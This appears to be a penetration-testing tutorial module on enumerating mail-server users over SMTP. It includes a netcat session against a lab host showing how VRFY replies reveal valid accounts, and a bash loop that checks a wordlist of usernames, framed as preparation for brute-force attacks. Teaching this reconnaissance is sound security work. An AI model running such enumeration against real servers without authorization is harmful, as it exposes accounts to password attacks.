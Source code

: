 # SMTP Mail User Enumeration
In this module we will learn how to attempt to enumerate users from a target system that is running Dovecot or Exim, or some other form of mail server.
## User List
When using **any** type of brute force attack, it is VERY important to enumerate as much as possible to build the best word list, in our case is a user list. In most cases, at least, add the enumerated hostname as a user. Look for weblogs and anything else that may contain reused UIDs, email addresses, or more.
## Using Netcat
To use Netcat to connect to a mail server simply do:

`root@kali:~# nc (TARGET IP ADDRESS) 25`

Next, we can use some helpful commands that could tell us more about the system. In this case, we wuse `VRFY`

```
wnl8:/pwnt/smtp# nc 192.168.161.129 25
220 vulnix ESMTP Postfix (Ubuntu)
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY dovecot
252 2.0.0 dovecot
VRFY nonexistentuser
550 5.1.1 <nonexistentuser>: Recipient address rejected: User unknown in local recipient table
^C
wnl8:/pwnt/smtp#
```

As you can see, when a valid user is identified by the mail server via the `VRFY` command, it returned `252 2.0.0 (USERNAME)` and when an invalid user was tested via `VRFY` the service returned `550 5.1.1 (USERNAME)`

## SMTP User Enumeration Automation
We can easily script this process by echoing the VRFY command directly into a netcat connection command for each name in a word list against the target server as so,
```
#!/bin/bash
while read user;
 do
  echo VRFY $user | nc (TARGET IP ADDRESS) (TARGET SMTP PORT) | egrep "^252"
 done
< /path/to/usernames.txt
```

